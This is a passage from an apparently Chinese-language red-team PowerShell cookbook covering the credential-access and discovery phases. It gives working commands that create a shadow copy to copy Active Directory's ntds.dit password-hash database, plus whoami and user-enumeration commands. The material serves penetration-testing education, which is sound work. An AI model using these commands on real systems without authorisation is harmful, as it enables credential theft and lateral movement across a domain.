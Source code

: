 凭证访问阶段是关于窃取凭证（例如用户名和密码）的。这些凭证稍后可以用来进行横向移动并在其他目标上进行身份验证。

### 导出 ntds.dit 文件

你想要窃取包含所有身份和哈希值的`ntds.dit`文件，这些信息存在于 Active Directory 中。

#### 解决方案

由于`ntds.dit`文件被 Active Directory 不断使用并因此被锁定，你需要找到访问`ntds.dit`的方法。一种方法是创建影像副本，创建符号链接，并从中提取该文件：

```
$ShadowCopy = Invoke-CimMethod -ClassName "Win32_ShadowCopy" -Namespace "root\cimv2" -MethodName "Create" -Arguments @{Volume="C:\"}
$ShadowCopyPath = (Get-CimInstance -ClassName Win32_ShadowCopy | Where-Object { $_.ID -eq $ShadowCopy.ShadowID }).DeviceObject + "\\"
cmd /c mklink /d C:\shadowcopy "$ShadowCopyPath"
```

现在你可以无错误地访问`ntds.dit`文件，并提取它或继续提取身份。在这个示例中，我们将其复制到`C:\tmp`以供进一步使用：

```
> Copy-Item "C:\shadowcopy\Windows\NTDS\ntds.dit" -Destination "C:\tmp"
```

一旦完成此操作，你可以删除符号链接并继续进行渗透测试：

```
> (Get-Item C:\shadowcopy).Delete()
```

## 发现阶段

发现阶段类似于侦察阶段：其目标是收集尽可能多的关于潜在目标的信息。发现阶段通常发生在红队员已获得系统访问权限并规划下一步时。

### 查找当前登录的用户

你想要查找当前登录的用户，并显示他们的用户名和域名（如果是本地账户，则显示计算机名）。

#### 解决方案

为了实现你的目标，你可以使用`whoami`命令：

```
> whoami
```

### 枚举用户（本地和域）

你想要查找当前系统或当前域中存在的用户账户。

#### 解决方案

根据你的目标，有多种方法可以枚举用户。

你可以使用 WMI/CIM 枚举所有用户，无论他们是本地用户还是域用户：

```
> Get-CimInstance -ClassName Win32_UserAccount
```
